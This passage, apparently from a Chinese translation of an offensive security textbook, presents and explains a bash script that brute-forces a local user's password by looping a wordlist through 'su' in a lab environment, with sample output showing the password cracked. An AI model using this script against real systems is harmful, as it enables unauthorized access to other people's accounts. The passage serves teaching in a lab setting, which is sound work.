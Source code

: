 为了举例说明，我们将攻击账户 *jmartinez*。列表 9-5 尝试暴力破解该账户的密码。

local_account _bf.sh

```
#!/bin/bash
❶ USER="jmartinez"
❷ PASSWORD_FILE="passwords.txt"

if [[! -f "${PASSWORD_FILE}"]]; then
  echo "password file does not exist."
  exit 1
fi

❸ while read -r password; do
  echo "Attempting password: ${password} against ${USER}..."
  if echo "${password}" | timeout 0.2 su - ${USER} \
          -c 'whoami' | grep -q "${USER}"; then
    echo
    echo "SUCCESS! The password for ${USER} is ${password}"
    echo "Use su - ${USER} and provide the password to switch"
    exit 0
  fi
done < "${PASSWORD_FILE}"

echo "Unable to compromise ${USER}."
exit 1 
```

列表 9-5：暴力破解相邻账户

在这个脚本中，我们设置了两个变量：USER，表示要攻击的账户名 ❶，以及 PASSWORD_FILE，一个包含密码列表的文件 ❷。

接下来，我们通过使用一个 while 循环 ❸ 来读取 PASSWORD_FILE 的内容，遍历每一个存在的密码。我们将每个密码输出到标准输出流，并将其通过管道传输给 su 命令。然后，我们使用 su - ${USER} -c 'whoami' 来尝试切换到该用户并在成功后执行 whoami 命令。

如果 whoami 命令在输出中返回我们正在暴力破解的用户名（在这个例子中是 *jmartinez*），那么就表示我们成功地猜测出了密码并以该用户身份执行了命令。我们可以使用 grep -q "${USER}" 来验证是否返回了这个字符串。

让我们进行测试。通过你目前学到的方法，将脚本下载并保存到 *p-jumpbox-01* 机器上。

接下来，向 *passwords.txt* 文件中写入一些密码。确保该文件与 *local_account_bf.sh* 脚本位于同一目录下：

```
$ **echo test >> passwords.txt**
$ **echo test123 >> passwords.txt**
$ **echo password123 >> passwords.txt**
$ **echo admin >> passwords.txt** 
```

现在运行脚本并观察其输出：

```
$ **bash local_account_bf.sh**
Attempting password: test against jmartinez...
Password: Attempting password: test123 against jmartinez...
Password: Attempting password: password123 against jmartinez...
Password:
**SUCCESS! The password for jmartinez is password123**

Use su - jmartinez and provide the password to switch 
```
